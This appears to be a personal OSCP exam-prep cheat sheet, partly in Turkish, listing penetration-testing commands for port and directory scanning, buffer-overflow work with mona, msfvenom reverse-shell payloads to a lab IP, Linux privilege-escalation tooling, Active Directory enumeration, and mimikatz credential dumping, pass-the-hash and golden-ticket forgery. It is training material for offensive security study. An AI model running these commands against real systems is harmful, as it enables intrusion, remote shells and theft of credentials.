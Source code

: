 # OSCP-Prep-Notes

## İlk taramalar

nmap -sS -sV -v IP -p- #Tüm portlara stealth scan at.


gobuster dir -u http://192.168.174.101/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 #dir taraması

#-x php,txt,py,c,js,bak,gz,tar,html,db,php.bak,key,jsp,asp # extension taraması

#-b 404 -s 201 # status code özelleştirme

## BOF

!mona config -set workingfolder c:\mona\%p

!mona bytearray -b "\x00"

!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS/EBX_ADDRESS>

--

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.136 LPORT=4444 -b "\x00\x0a\x0d\x20\x37" -o exploit.txt

sfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.136 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f c

msfvenom -p windows/exec CMD="cmd.exe" -b '\x00\x0a\x1a' -f c


msf-pattern_create -l 5000 > exploit.txt

msf-pattern_offset -q 413461A2 -l 5000







## Privilege Escalation

wget "https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh" -O linpeas.sh

sudo -l

## Active Directory

net user # Enumerate all of the local accounts.

net user /domain # Enumerate all users in the entire domain.

net user admin_onur /domain # Enumerate spesific 'admin_onur' user in the domain.

net group /domain # Enumerate all the groups in the domain.



### mimikatz

privilege::debug # admin

lsadump::lsa /patch # ntlm pass hashes dump

klist #cached tickets

sekurlsa::logonpasswords #dump pass hashes

sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe

kerberos::golden /user:susan(herhangi bi user) /domain:exam.com /sid:S-1-5-21-88558181-3850747640-3669402957 /krbtgt:345caf37c36688f0afabed009787b7b2 /ptt

misc::cmd

PsExec64.exe \\dc01 cmd.exe # powershell veya cmd acildiginda dcye baglan

PTT:

sekurlsa::tickets /export

/usr/share/kerberoast/kirbi2john.py mssqlsvc.kirbi      





### PowerView

https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview



